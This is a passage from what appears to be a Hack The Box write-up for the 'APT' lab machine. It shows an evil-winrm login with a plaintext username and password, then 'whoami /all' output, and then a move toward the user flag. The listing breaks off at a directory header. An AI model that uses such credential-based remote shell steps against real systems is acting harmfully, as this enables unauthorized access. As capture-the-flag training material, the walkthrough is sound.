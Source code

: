 ┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ evil-winrm -u henry.vinson\_adm -p G1\#Ny5@2dvht -i apt.htb.local 1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

\[0;31m_Evil-WinRM_\[0m\[0;1;33m PS \[0mC:\Users\henry.vinson\_adm\Documents&gt; whoami /all

## USER INFORMATION

User Name SID ==================== ============================================= htb\henry.vinson\_adm S-1-5-21-2993095098-2100462451-206186470-1106

## GROUP INFORMATION

Group Name Type SID Attributes ========================================== ================ ============ ================================================== Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group Mandatory Label\Medium Mandatory Level Label S-1-16-8192

## PRIVILEGES INFORMATION

Privilege Name Description State ============================= ============================== ======= SeMachineAccountPrivilege Add workstations to domain Enabled SeChangeNotifyPrivilege Bypass traverse checking Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

## USER CLAIMS INFORMATION

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```text
AFter all that, I finally had a shell!  There were no useful or interesting groups or privileges.


### User.txt
```

\[0;31m_Evil-WinRM_\[0m\[0;1;33m PS \[0mC:\Users\henry.vinson\_adm\Documents&gt; cd ../Desktop \[0;31m_Evil-WinRM_\[0m\[0;1;33m PS \[0mC:\Users\henry.vinson\_adm\Desktop&gt; ls

```text
Directory: C:\Users\henry.vinson_adm\Desktop
```

Mode LastWriteTime Length Name
